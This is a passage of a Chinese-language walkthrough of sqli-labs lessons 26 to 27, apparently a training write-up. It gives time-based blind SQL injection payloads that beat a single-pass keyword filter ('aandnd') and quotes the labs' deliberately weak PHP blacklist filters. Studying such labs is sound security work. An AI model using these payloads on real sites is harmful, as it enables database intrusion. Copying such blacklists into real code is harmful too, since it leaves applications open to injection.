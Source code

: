+ 因为这里过滤空格和注释。我没有办法进行报错注入，这里只能用布尔和时间延迟方法进行注入。

    + 这里我使用时间延迟方法进行注入。

  ```sql
  # 为什么要用aandnd，因为preg_replace()函数不会进行多次过滤
  id=1'aandnd(if(substring(user(),1,1)=char(114),sleep(3),0))='
  ```

    + 剩下的步骤我这里就不进行详细说明。你可以去查看Less-10的步骤。

## Less-26a Trick with comments

+ 查看源代码后发现Less-26a和Less-26区别不大只是在SQL语句添加了`()`。

```sql
# 26
SELECT * FROM users WHERE id='$id' LIMIT 0,1;
# 26a
SELECT * FROM users WHERE id=('$id') LIMIT 0,1;
```

+ 我们只需要修改一下Less-26的payload就可以了。

```sql
id=1')aandnd(if(substring(user(),1,1)=char(114),sleep(3),0))=('
```

## Less-27与SELECT&amp;UNION的绕过

+ 这题和Less-26区别不大只是在过滤函数添加了更多过滤规则。

```php
# Less-26
function blacklist($id)
{
        $id= preg_replace('/or/i',"", $id);                     //strip out OR (non case sensitive)
        $id= preg_replace('/and/i',"", $id);            //Strip out AND (non case sensitive)
        $id= preg_replace('/[\/\*]/',"", $id);          //strip out /*
        $id= preg_replace('/[--]/',"", $id);            //Strip out --
        $id= preg_replace('/[#]/',"", $id);                     //Strip out #
        $id= preg_replace('/[\s]/',"", $id);            //Strip out spaces
        $id= preg_replace('/[\/\\\\]/',"", $id);                //Strip out slashes
        return $id;
}
# Less-27
function blacklist($id)
{
$id= preg_replace('/[\/\*]/',"", $id);          //strip out /*
$id= preg_replace('/[--]/',"", $id);            //Strip out --.
$id= preg_replace('/[#]/',"", $id);                     //Strip out #.
$id= preg_replace('/[ +]/',"", $id);        //Strip out spaces.
$id= preg_replace('/select/m',"", $id);     //Strip out spaces.
$id= preg_replace('/[ +]/',"", $id);        //Strip out spaces.
$id= preg_replace('/union/s',"", $id);      //Strip out union
$id= preg_replace('/select/s',"", $id);     //Strip out select
$id= preg_replace('/UNION/s',"", $id);      //Strip out UNION
$id= preg_replace('/SELECT/s',"", $id);     //Strip out SELECT
$id= preg_replace('/Union/s',"", $id);      //Strip out Union
$id= preg_replace('/Select/s',"", $id);     //Strip out select
return $id;
}
```

